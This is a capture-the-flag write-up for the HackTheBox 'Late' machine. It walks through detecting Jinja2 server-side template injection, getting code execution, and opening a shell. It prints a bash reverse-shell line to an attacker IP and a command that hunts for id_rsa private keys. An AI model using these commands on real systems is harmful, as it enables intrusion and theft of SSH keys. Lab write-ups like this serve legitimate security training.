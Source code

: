 Website generated with Flask.
Flask: Flask ist ein in Python geschriebenes Webframework.
Die einzigen Abhängigkeiten sind Jinja2, eine Template-Engine, und Werkzeug, eine Bibliothek zum Erstellen von WSGI-Anwendungen.
Programmiersprache: Python
Jinja2 is used by Python Web Frameworks such as Django or Flask.
Nutzt Template-Engine --> SSTI?
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/images.late.htb.png)
## Test polyglot ssti from cobalt: [](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)
If it throws an error ssti is succussfull
How to: grab screen area with payload and save it (https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti-cobalt-polyglot.png).
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti-cobalt-polyglot.png)
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/images.late.htb-upload%20image.png)

## polyglote response
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti-polyglot-response.png)
## SSTI payload was succusfull! --> throws error!

## Test: {{7*7}} --> 49 if successfull
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti-77.png)
## Result: 49 --> injectable
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti-77-result.png)

## SSTI remote commands from: [](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti%20payload%20rce.png)

## Result
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti%20id.png)
# getting shell

## payload
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti%20reverse%20shell.png)

## make dir www with index.html file:
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

## make python http.server on port 80 in the www folder
![](python3 http server on port 80.png)
## nc listen on port 1111
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/nc%20shell.png)

look for id_rsa file
````
find / -type f -name id_rsa 2>/dev/null



`````

chmod 600 id_rsa --> ssh to the machine



XXXXXXXXXXXXXXXXXXXXXXXXX

